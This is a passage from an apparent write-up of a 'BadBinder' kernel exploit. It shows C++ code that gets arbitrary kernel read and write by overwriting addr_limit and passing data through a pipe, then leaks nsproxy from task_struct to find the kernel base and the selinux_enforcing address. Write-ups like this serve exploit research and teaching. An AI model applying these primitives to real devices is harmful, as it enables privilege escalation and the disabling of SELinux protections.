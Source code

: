 Since child process have sent correct amount of bytes `write`, it should have been unblocked. Also we have `addr_limit_ptr` to set to `0xFFFFFFFFFFFFFFFE`

## Arbitrary R/W

Since we have overwritten `addr_limit` we should be able to `write` and `read` anywhere.

```c
void BadBinder::arb_read(char *buf, char *addr, size_t size)
{
    info("arb_read: addr: 0x%lx, size: 0x%lx", addr, size);
    // write to pipe
    if (write(m_rw_pipes[1], addr, size) != size)
    {
        err("\tUnable to write to pipe");
    }

    // read from pipe
    if (read(m_rw_pipes[0], buf, size) != size)
    {
        err("\tUnable to read from pipe");
    }
}

void BadBinder::arb_write(char *addr, char *buf, size_t size)
{
    info("arb_write: addr: 0x%lx, size: 0x%lx", addr, size);
    // write to pipe
    if (write(m_rw_pipes[1], buf, size) != size)
    {
        err("\tUnable to write to pipe");
    }

    // read from pipe
    if (read(m_rw_pipes[0], addr, size) != size)
    {
        err("\tUnable to read from pipe");
    }
}
```

Here we just use `pipe` because its convenient to use pipe to `write` and `read` then opening something like file to pass to `write` and `read`. You can just use `STDOUT` or `STDIN` FD to do this as well but then it will just `write/recv` from terminal which is not ideal.

## Getting Kernel Base to get selinux_enforcing Address

Since we now have `arbitary R/W` as well as `task_struct_ptr`, we should be able to get kernel base by reading `nsproxy` field of task_struct by substracting `nsproxy_ptr - nsproxy_offset_to_kbase`).

```c

void BadBinder::get_kbase()
{
    info("Getting kaslr base by leaking nsproxy from task_struct");
    uint64_t nsproxy = read_u64((uint64_t)m_task_struct_ptr + offsetof(struct task_struct, nsproxy));
    info("nsproxy: 0x%lx", nsproxy); 

    m_kbase  = nsproxy - NSPROXY_OFFSET_FROM_KBASE_TEXT;
    info("kbase: 0x%lx", m_kbase);
    m_selinux_enforcing = m_kbase + SELINUX_ENFORCING_OFFSET;
    info("selinux_enforing addr: 0x%lx", m_selinux_enforcing);
}
```
